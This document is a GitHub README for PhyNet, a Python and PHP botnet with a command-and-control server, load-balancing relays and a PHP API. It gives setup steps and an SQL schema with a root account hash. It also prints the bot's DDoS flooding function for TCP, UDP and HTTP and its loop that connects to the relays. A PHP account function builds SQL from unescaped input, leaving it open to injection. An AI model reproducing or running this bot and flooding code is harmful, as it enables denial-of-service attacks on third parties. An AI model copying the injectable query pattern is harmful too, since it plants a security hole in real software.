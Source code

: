 # PhyNet
 phynet is a botnet coded in python and php, wich is using relays for balancing bots and uses only one cnc.  
 phynet is an old project in bad languages for a botnet and actually not working, you may want to uses oldest versions, you can consider this code as a POC of a easy balanced botnet

# CNC
Def: "Command and Control" (C&C) servers are centralized machines that are able to send commands and receive outputs of machines part of a botnet. Anytime attackers who wish to launch a DDoS attack can send special commands to their botnet's C&C servers with instructions to perform an attack on a particular target, and any infected machines communicating with the contacted C&C server will comply by launching a coordinated attack.   

My cnc works with a relay (which will relay the commands to the bots to avoid an overload of the cnc server), it also works with an api which will be mainly used to register the relay servers to be able to dispatch the bots on the server having the least load, the api will also be used to login on the cnc

for setup the [cnc](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/cnc/cnc.py):  
```batch
py cnc.py 8080    
```

# RELAY
for setup the [relay](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/relay/relay.py):  
```batch
py relay.py 5000
```

# API
for setup the [api](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v2), you need a database:
## API Database:
```sql
SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
START TRANSACTION;
SET time_zone = "+00:00";

DROP TABLE IF EXISTS `gkeys`;
CREATE TABLE IF NOT EXISTS `gkeys` (
  `gkey` text COLLATE utf8_unicode_ci NOT NULL,
  `ogkey` text COLLATE utf8_unicode_ci NOT NULL,
  `relay` text COLLATE utf8_unicode_ci NOT NULL
) ENGINE=MyISAM DEFAULT CHARSET=utf8mb3 COLLATE=utf8_unicode_ci;

DROP TABLE IF EXISTS `relays`;
CREATE TABLE IF NOT EXISTS `relays` (
  `relay_ip` text COLLATE utf8_unicode_ci NOT NULL,
  `relay_bots` int NOT NULL
) ENGINE=MyISAM DEFAULT CHARSET=utf8mb3 COLLATE=utf8_unicode_ci;

DROP TABLE IF EXISTS `users`;
CREATE TABLE IF NOT EXISTS `users` (
  `id` int NOT NULL AUTO_INCREMENT,
  `username` text COLLATE utf8_unicode_ci NOT NULL,
  `password` text COLLATE utf8_unicode_ci NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM AUTO_INCREMENT=2 DEFAULT CHARSET=utf8mb3 COLLATE=utf8_unicode_ci;

INSERT INTO `users` (`id`, `username`, `password`) VALUES
(1, 'root', '2b64f2e3f9fee1942af9ff60d40aa5a719db33b8ba8dd4864bb4f11e25ca2bee00907de32a59429602336cac832c8f2eeff5177cc14c864dd116c8bf6ca5d9a9');
COMMIT;
```
(the password encryption is sha512)   
In php you can use this function for generate a password
```php
function create_acc($usr, $pass) {

    global $conn;

    $pass=hash('sha256', $pass);
    $pass=hash('sha512', $pass);
    
    $sql="INSERT INTO users (username, password) VALUES ('$usr', '$pass')";
    $result=mysqli_query($conn, $sql);

    if ($result==TRUE) {

        echo json_encode("ok", JSON_PRETTY_PRINT);

    } else {

        echo json_encode("error", JSON_PRETTY_PRINT);

    }

}
```
Next, you need an php server for copy the api file ([SERVER/api/v1](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v2))  
After you have to configure the database in the php script ([SERVER/api/v1/db_conn/db_connn.php](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v2/db/db_conn.php))  
```php
$sname="localhost"; //database address
$unmae="root"; //database username
$password=""; //database password
$db_name="phybot"; //database name
$conn=mysqli_connect($sname, $unmae, $password, $db_name);

if (!$conn) {
    
	echo json_encode("db_connection_failed", JSON_PRETTY_PRINT);
}
```
You have to change your api url in:  
> the zomb ([CLIENT/zomb.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/bot/zomb.py)) `API_URL: str = "http://localhost/phybot/api/v1"` (L28),  
> the cnc config ([SERVER/cnc.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/cnc/modules/config.py)) `api_url="http://localhost/phybot/api/v1"` (L42),  
> and the relay config ([SERVER/relay.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/relay/modules/config.py)) `api_url="http://localhost/phybot/api/v1"` (L41)  

# ZOMB
you may want to compile the bot with nuitka (create a fast executable file because the python code is transpiled to c and compiled)
but the simple command for running it is:
```batch
py zomb.py
```
## ZOMB DDOS Code: 
```python
def dos(
    s: sock,
    attack: tuple[str, int],
    tps: int,
    method: str,
) -> None: # start dos attack with socket and attack target
    tps += int(time()) # set the attack time with actual time + attack time

    match method:
        case "TCP":
            log("TCP")
            while time() < tps:
                try:
                    s.connect(attack)
                    while time() < tps:
                        s.send(bytes(PAYLOAD, "utf-8"))
                except: pass

        case "UDP":
            log("UDP")
            while time() < tps:
                try:
                    s.sendto(bytes(PAYLOAD, "utf-8"), attack)
                except: pass

        case "HTTP":
            while time() < tps:
                try:
                    s.connect(attack)
                    while time() < tps:
                        s.send(f'GET / HTTP/1.1\r\nHost: {attack[0]}\r\nUser-Agent: {rand_ua()}\r\nConnection: keep-alive\r\n\r\n'.encode())

                except: s.close()

        case _:
            log("Unknown")
            while time() < tps:
                try:
                    s.sendto(bytes(PAYLOAD, "utf-8"), attack)
                except: pass
```
## The ZOMB Socket Connection
```python
c2: sock = sock(AF_INET, SOCK_STREAM)
c2.setsockopt(SOL_SOCKET, SO_KEEPALIVE, 1)

while 1:
    try:
        RELAY_ADDR: str = rget(f"{API_URL}/dispatch.php?urlkey={URL_KEY}", timeout=5000).text

        raddr.clear()
        raddr.append(RELAY_ADDR)

        c2.connect((RELAY_ADDR, RELAY_PORT))

        log((RELAY_ADDR, RELAY_PORT))

        while 1:
            data: str = c2.recv(1024).decode()

            if 'Username' in data:
                c2.send('BOT'.encode())
                log("send bot")
                break

        while 1:
            data: str = c2.recv(1024).decode()

            if 'Password' in data:
                c2.send('\xff\xff\xff\xff\75'.encode('cp1252'))
                log("send bot string")
                break

        break
    except: sleep(240)
```
